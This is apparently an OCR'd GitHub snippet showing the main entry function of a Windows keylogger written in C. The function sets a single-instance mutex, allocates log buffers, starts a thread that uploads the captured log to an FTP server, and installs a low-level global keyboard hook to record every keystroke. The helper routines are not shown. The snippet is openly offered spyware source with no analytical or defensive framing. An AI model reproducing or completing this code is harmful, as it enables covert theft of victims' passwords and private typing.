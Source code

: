 ```c
int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPCSTR lpCmdLine, int nCmdShow) {
    // mutex to prevent other keylog instances
    ghMutex = CreateMutex(NULL, TRUE, NAME);
    if (ghMutex == NULL) {
        Fatal("Create mutex");
    }
    if (GetLastError() == ERROR_ALREADY_EXISTS) {
        Fatal("Mutex already exists");
        ExitProcess(1);
    }

    // declare handle cleaner on exit
    atexit(CleanUp);

    // allocate heap buffer
    ghLogHeap = HeapCreate(0, BUF_SIZ + 1, 0);
    if (ghLogHeap == NULL) {
        Fatal("Heap create");
    }

    lpLogBuf = (LPSTR)HeapAlloc(ghLogHeap, HEAP_ZERO_MEMORY, BUF_SIZ + 1);
    if (lpLogBuf == NULL) {
        Fatal("Heap alloc");
    }
    dwLogBufSize = BUF_SIZ + 1;

    ghTempHeap = HeapCreate(0, dwLogBufSize, 0);
    if (ghTempHeap == NULL) {
        Fatal("Temp heap create");
    }

    lpTempBuf = (LPSTR)HeapAlloc(ghTempHeap, HEAP_ZERO_MEMORY, dwLogBufSize);
    if (lpTempBuf == NULL) {
        Fatal("Temp heap alloc");
    }

    // multithreading set up
    hTempBufHasData = CreateEvent(NULL, TRUE, FALSE, NULL);
    hTempBufNoData = CreateEvent(NULL, TRUE, TRUE, NULL);

    // create thread to send log file to ftp server
    if (CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)FTPSend, NULL, 0, NULL) == NULL) {
        Fatal("Create thread");
    }

    // set keyboard hooking subroutine
    ghHook = SetWindowsHookEx(WH_KEYBOARD_LL, LowLevelKeyboardProc, GetModuleHandle(NULL), 0);
    if (ghHook == NULL) {
        Fatal("Failed to set keyboard hook");
    }

    MSG msg;
    while (GetMessage(&msg, 0, 0, 0) != 0) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);    
    }

    UnhookWindowsHookEx(ghHook);

    return 0;
}
```